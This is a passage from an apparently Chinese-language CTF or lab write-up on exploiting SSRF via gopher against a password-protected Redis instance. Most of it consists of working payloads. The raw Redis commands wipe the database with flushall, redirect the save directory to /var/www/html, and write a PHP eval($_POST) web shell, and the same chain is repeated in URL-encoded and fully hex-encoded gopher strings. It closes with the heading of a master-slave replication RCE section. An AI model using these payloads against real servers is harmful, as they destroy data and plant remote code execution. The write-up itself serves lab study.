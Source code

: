 ```
<?php eval($_POST[1]);?>\r
*1\r
$4\r
save\r


```

去掉`\R`

![image-20210924100014644](https://gitee.com/taochiyu/blogimage/raw/master/img/20210924100014.png)

url编码：

![image-20210924095419026](https://gitee.com/taochiyu/blogimage/raw/master/img/20210924095419.png)

然后替换

**注意点：**回车用%0d%0a表示，问号需转为url编码%3f，最后可以多加上一个换行符

```
gopher://192.168.59.129:6380/_*2%250d%250a$4%250d%250aauth%250d%250a$30%250d%250awelcometowangdingbeissrfme6379%250d%250a*1%250d%250a$8%250d%250aflushall%250d%250a*4%250d%250a$6%250d%250aconfig%250d%250a$3%250d%250aset%250d%250a$3%250d%250adir%250d%250a$13%250d%250a/var/www/html%250d%250a*4%250d%250a$6%250d%250aconfig%250d%250a$3%250d%250aset%250d%250a$10%250d%250adbfilename%250d%250a$27%250d%250aupload_like_scy_forever.php%250d%250a*3%250d%250a$3%250d%250aset%250d%250a$1%250d%250ax%250d%250a$24%250d%250a%253C%253fphp%2520eval($_POST%255B1%255D);%253f%253E%250d%250a*1%250d%250a$4%250d%250asave
```



```
gopher://192.168.59.129:6380/_%2a%32%0d%0a%24%34%0d%0a%61%75%74%68%0d%0a%24%33%30%0d%0a%77%65%6c%63%6f%6d%65%74%6f%77%61%6e%67%64%69%6e%67%62%65%69%73%73%72%66%6d%65%36%33%37%39%0d%0a%2a%31%0d%0a%24%38%0d%0a%66%6c%75%73%68%61%6c%6c%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%33%0d%0a%64%69%72%0d%0a%24%31%33%0d%0a%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%30%0d%0a%64%62%66%69%6c%65%6e%61%6d%65%0d%0a%24%32%37%0d%0a%75%70%6c%6f%61%64%5f%6c%69%6b%65%5f%73%63%79%5f%66%6f%72%65%76%65%72%2e%70%68%70%0d%0a%2a%33%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%0d%0a%78%0d%0a%24%32%34%0d%0a%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%31%5d%29%3b%3f%3e%0d%0a%2a%31%0d%0a%24%34%0d%0a%73%61%76%65
```

![image-20210924100143510](https://gitee.com/taochiyu/blogimage/raw/master/img/20210924100143.png)

写入成功！😶😶

![image-20210924100212165](https://gitee.com/taochiyu/blogimage/raw/master/img/20210924100212.png)





### 4、SSRF Redis 主从复制RCE

和4-4 一样！ 我这回是自己大自己！ kali的15000端口当从机！
